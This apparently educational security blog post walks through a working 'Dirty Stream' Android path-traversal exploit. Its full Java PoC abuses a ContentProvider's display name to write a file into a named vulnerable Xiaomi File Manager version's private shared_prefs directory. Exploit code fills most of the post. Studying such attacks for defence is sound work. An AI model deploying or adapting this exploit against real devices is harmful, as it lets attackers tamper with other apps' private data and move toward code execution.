

Dirty Stream: Exploiting Android's File Sharing - Part 1
- tags
- #Android #Mobile Security
- published
- reading time
- 8 minutes
Dirty Stream: Exploiting Android’s File Sharing - Part 1
“Dirty Stream”. This attack, detailed by Microsoft’s Threat Intelligence team, highlights a common vulnerability pattern related to improper handling of file sharing via ContentProviders. I’d like to thank Ch0pin for his excellent articles, presentations, and research on Android security, and to cyb3r-w0lf and LLeavesG for their initial PoC skeletons.
This blog post, the first in a series, will walk you through my journey of understanding and exploiting this vulnerability. We’ll start with a “defanged” proof-of-concept (PoC), debug it, and get it working, demonstrating the core principles behind the Dirty Stream attack. In later posts, we’ll explore advanced exploitation techniques and discuss robust mitigation strategies to help secure vulnerable applications.
What is the Dirty Stream Attack?
The Dirty Stream attack, as documented by Microsoft, exploits path traversal vulnerabilities in Android applications. It targets apps that insecurely handle file sharing through ContentProvider. The attack allows a malicious app to overwrite files in the private data directory of a vulnerable (target) application. This can lead to several severe consequences, including:
- Arbitrary Code Execution (ACE): Overwriting shared libraries (.so files) to potentially gain control over app execution.
- Data Modification: Altering application preferences or databases to change app behavior.
- Denial of Service: Corrupting critical files, which may cause application crashes or unexpected behavior.
The vulnerability arises from the way the target app requests and uses filenames from the attacking app’s ContentProvider without proper sanitization, allowing for dangerous path traversal.
A Quick Look at the Vulnerable Code
<Placeholder with code examples>
The Starting Point: A Defanged PoC
I began by exploring existing PoC code available on GitHub:
- cyb3r-w0lf/Dirty_Stream-Android-POC (Original, defanged)
- LLeavesG/Android-DirtyStream (Alternative approach, which required further adjustments)
My initial goal was to understand how the exploit worked. The original PoC by cyb3r-w0lf was “defanged” – it wouldn’t actually write to the target’s directory.
Here is a working PoC that will be discussed in the blog post:
The Test Environment
To safely test the exploit, I used the following setup:
- Development Environment: Android Studio
- Deployment Tool: adb (Android Debug Bridge)
- Target Device: A rooted Google Pixel 3 running Android 15.0.0 (via Corellium)
- Vulnerable App: An older version (V1-210567) of Xiaomi Inc.’s File Manager, which is known to be vulnerable.
Step 1: Understanding the Original PoC
The original PoC consists of three main Java files:
DatabaseHelper.java:
This class extendsSQLiteOpenHelperand sets up a SQLite database. It defines a table namedexploitTablewith columnssize,display_name, and_data. TheinsertExploitDatamethod inserts a row containing the malicious path (using directory traversal) and placeholder data. Note that the vulnerable app expects the_dataand_sizecolumns.
package com.fileexplorer.exploit;
import android.content.Context;
import android.database.sqlite.SQLiteDatabase;
import android.database.sqlite.SQLiteOpenHelper;
import android.util.Log;
public class DatabaseHelper extends SQLiteOpenHelper {
private static final String DATABASE_NAME = "exploitDB";
private static final int DATABASE_VERSION = 1;
public DatabaseHelper(Context context) {
super(context, DATABASE_NAME, null, DATABASE_VERSION);
}
@Override
public void onCreate(SQLiteDatabase db) {
db.execSQL("CREATE TABLE IF NOT EXISTS exploitTable (size INTEGER, display_name TEXT, _data TEXT);");
}
@Override
public void onUpgrade(SQLiteDatabase db, int oldVersion, int newVersion) {
db.execSQL("DROP TABLE IF EXISTS exploitTable");
onCreate(db);
}
public void insertExploitData() {
SQLiteDatabase db = this.getWritableDatabase();
db.execSQL("INSERT INTO exploitTable (size, display_name, _data) VALUES (12345, '../../../../../../../../../../data/data/com.mi.android.globalFileexplorer/shared_prefs/pwned.txt', 'exploit_data');");
Log.d("DatabaseHelper", "Inserted exploit data");
}
}
MainActivity.java:
The main activity sets up a button that, when clicked, triggers the exploit. It copies a file (pwned.txt) to the app’s internal storage, inserts the malicious data into the database, and constructs anIntenttargeting the vulnerable activity in Xiaomi File Manager.
package com.fileexplorer.exploit;
import android.content.ComponentName;
import android.content.Intent;
import android.net.Uri;
import android.os.Bundle;
import androidx.appcompat.app.AppCompatActivity;
import android.util.Log;
import android.widget.Button;
import java.io.File;
import java.io.FileOutputStream;
import java.io.IOException;
import java.io.InputStream;
public class MainActivity extends AppCompatActivity {
@Override
protected void onCreate(Bundle savedInstanceState) {
super.onCreate(savedInstanceState);
setContentView(R.layout.activity_main);
Button button = findViewById(R.id.exploit);
button.setOnClickListener(view -> setupDatabaseAndIntent());
}
private void setupDatabaseAndIntent() {
copyFileToInternalStorage();
DatabaseHelper dbHelper = new DatabaseHelper(this);
dbHelper.insertExploitData();
Uri uri = Uri.parse("content://com.fileexplorer.exploit/pwned.txt");
Intent intent = new Intent();
intent.setComponent(new ComponentName("com.mi.android.globalFileexplorer", "com.android.fileexplorer.activity.CopyFileActivity"));
intent.putExtra("from_private", true);
intent.putExtra("inner_call", true);
intent.putExtra("explorer_path", "content://com.fileexplorer.exploit/pwned.txt");
intent.setData(uri);
intent.setAction(Intent.ACTION_SEND);
startActivity(intent);
}
private void copyFileToInternalStorage() {
try {
InputStream inputStream = getAssets().open("pwned.txt");
File outFile = new File(getFilesDir(), "pwned.txt");
FileOutputStream outputStream = new FileOutputStream(outFile);
byte[] buffer = new byte[1024];
int length;
while ((length = inputStream.read(buffer)) > 0) {
outputStream.write(buffer, 0, length);
}
outputStream.close();
inputStream.close();
} catch (IOException e) {
Log.e("MainActivity", "Error copying file to internal storage", e);
}
}
}
MyContentProvider.java:
This class extendsContentProvider. The key method,openFile, is designed to serve the file requested via a content URI. The original defanged version simply returns the localpwned.txtfile, while the criticalquerymethod, which should provide the malicious file path, originally returnednull. I skipped over this detail at first glance.
package com.fileexplorer.exploit;
import android.content.ContentProvider;
import android.content.ContentValues;
import android.database.Cursor;
import android.database.sqlite.SQLiteDatabase;
import android.net.Uri;
import android.os.ParcelFileDescriptor;
import android.util.Log;
import java.io.File;
import java.io.FileNotFoundException;
public class MyContentProvider extends ContentProvider {
private DatabaseHelper dbHelper;
@Override
public boolean onCreate() {
dbHelper = new DatabaseHelper(getContext());
return true;
}
@Override
public ParcelFileDescriptor openFile(Uri uri, String mode) throws FileNotFoundException {
File file = new File(getContext().getFilesDir(), "pwned.txt");
Log.d("MyContentProvider", "File path: " + file.getAbsolutePath());
if (!file.exists()) {
throw new FileNotFoundException("File not found: " + file.getAbsolutePath());
}
return ParcelFileDescriptor.open(file, ParcelFileDescriptor.MODE_READ_ONLY);
}
@Override
public Cursor query(Uri uri, String[] projection, String selection, String[] selectionArgs, String sortOrder) {
return null;
}
@Override
public String getType(Uri uri) {
return null;
}
@Override
public Uri insert(Uri uri, ContentValues values) {
return null;
}
@Override
public int delete(Uri uri, String selection, String[] selectionArgs) {
return 0;
}
@Override
public int update(Uri uri, ContentValues values, String selection, String[] selectionArgs) {
return 0;
}
}
Step 2: Dynamic Testing of PoC
After building and installing the APK on a Corellium virtual device, I launched the app and clicked the “Exploit” button. Initially, with the original code, no changes occurred.
Step 3: Debugging and Logging
To better understand the behavior of each component, I added extensive logging using Log.d(). This allowed me to monitor method calls and inspect the values being processed. Such visibility is crucial in debugging security exploits and verifying each stage of the attack chain. An example with MainActivity.java is shown here, with the use of a TAG for Logcat and Log.d().
package com.fileexplorer.exploit;
import android.content.ComponentName;
import android.content.Intent;
import android.net.Uri;
import android.os.Bundle;
import androidx.appcompat.app.AppCompatActivity;
import android.util.Log;
import android.widget.Button;
import java.io.File;
import java.io.FileOutputStream;
import java.io.IOException;
import java.io.InputStream;
public class MainActivity extends AppCompatActivity {
private static final String TAG = "MainActivity"; // Tag for Logcat
@Override
protected void onCreate(Bundle savedInstanceState) {
super.onCreate(savedInstanceState);
Log.d(TAG, "onCreate called"); // Log activity creation
setContentView(R.layout.activity_main);
Button button = findViewById(R.id.exploit);
button.setOnClickListener(view -> {
Log.d(TAG, "Exploit button clicked"); // Log button click
setupDatabaseAndIntent();
});
}
private void setupDatabaseAndIntent() {
Log.d(TAG, "setupDatabaseAndIntent called"); // Log method entry
copyFileToInternalStorage();
DatabaseHelper dbHelper = new DatabaseHelper(this);
dbHelper.insertExploitData();
Uri uri = Uri.parse("content://com.fileexplorer.exploit/pwned.txt");
Log.d(TAG, "URI parsed: " + uri.toString()); // Log the parsed URI
Intent intent = new Intent();
intent.setComponent(new ComponentName("com.mi.android.globalFileexplorer", "com.android.fileexplorer.activity.CopyFileActivity"));
Log.d(TAG, "Intent component set: " + intent.getComponent().toString()); // Log the component
intent.putExtra("from_private", true);
intent.putExtra("inner_call", true);
intent.putExtra("explorer_path", "content://com.fileexplorer.exploit/pwned.txt");
Log.d(TAG, "Intent extras set"); //log that extras have been set.
intent.setData(uri);
intent.setAction(Intent.ACTION_SEND);
Log.d(TAG, "Intent action and data set"); //Log that action and data are set
try {
startActivity(intent);
Log.d(TAG, "Intent started successfully"); // Log successful intent start
} catch (Exception e) {
Log.e(TAG, "Failed to start activity: " + e.getMessage(), e); // Log any exceptions
}
}
private void copyFileToInternalStorage() {
Log.d(TAG, "copyFileToInternalStorage called"); // Log method entry
try {
InputStream inputStream = getAssets().open("pwned.txt"); //get from assets directory
Log.d(TAG, "Input stream opened from assets");
File outFile = new File(getFilesDir(), "pwned.txt");
Log.d(TAG, "Output file path: " + outFile.getAbsolutePath()); // Log the output file path
FileOutputStream outputStream = new FileOutputStream(outFile);
byte[] buffer = new byte[1024];
int length;
while ((length = inputStream.read(buffer)) > 0) {
outputStream.write(buffer, 0, length);
}
outputStream.close();
inputStream.close();
Log.d(TAG, "File copied to internal storage successfully"); // Log successful file copy
} catch (IOException e) {
Log.e(TAG, "Error copying file to internal storage", e); // Log any exceptions
}
}
}
Step 4: Modification of the PoC
There was one crucial detail that I skipped over, which is that the this portion of the code overrides the insert method of a ContentProvider to do nothing and return null, indicating that the provider wasn’t even sending any data, and therefore not sending our directory traversal payload.
@Override
public Uri insert(Uri uri, ContentValues values) {
Log.d(TAG, "insert called (not implemented)"); // Log unimplemented methods
return null;
}
This was modified like so:
@Override
public Cursor query(Uri uri, String[] projection, String selection,
String[] selectionArgs, String sortOrder) {
SQLiteDatabase db = dbHelper.getReadableDatabase();
// Return the malicious path from the row you inserted
return db.rawQuery(
"SELECT display_name AS _display_name, _data, size AS _size FROM exploitTable LIMIT 1",
null
);
}
Once the query method was fixed to return the malicious file path through the _display_name column, the exploit successfully wrote pwned.txt to the target directory (/data/data/com.mi.android.globalFileexplorer/shared_prefs/).

Step 5: Conclusion and Next Steps
This post has detailed a small journey from exploring a defanged PoC to refining it into a working exploit. The objective is not only to understand the vulnerability but also to inform developers and security professionals on how to better safeguard their applications.
In future posts, we will target more sensitive files and achieve code execution!
Stay tuned!